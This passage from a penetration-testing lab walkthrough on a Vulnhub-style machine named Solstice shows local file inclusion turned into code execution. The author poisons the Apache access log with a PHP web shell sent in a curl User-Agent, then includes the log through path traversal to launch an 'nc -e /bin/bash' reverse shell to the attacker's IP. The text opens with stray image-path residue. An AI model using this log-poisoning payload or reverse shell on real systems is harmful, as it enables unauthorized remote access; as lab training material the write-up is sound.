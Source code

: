 let’s try LFI(Local File Inclusion) here →

![Untitled](/Vulnhub-Files/img/Solstice/Untitled%203.png)

Now when I loaded the access.log file server was not able to proccess it so I reloaded the machine and tried it by first including the User-Agent with curl tool →

```bash
 ┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Solstice]
└─$ curl 192.168.231.72 -A "<?php system(\$_GET['cmd']);?>"
 <head>
Currently configuring the database, try later.
 <style type ="text/css" >
   .footer{ 
       position: fixed;     
       text-align: center;    
       bottom: 0px; 
       width: 100%;
   }  
</style>
</head>
<body>
    <div class="footer">Proudly powered by phpIPAM 1.4</div>
</body>
```
{: .nolineno}

Now lets load this reverse shell URL →

```bash
http://192.168.231.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=nc%20-e%20/bin/bash%20192.168.45.164%204444
```
{: .nolineno}
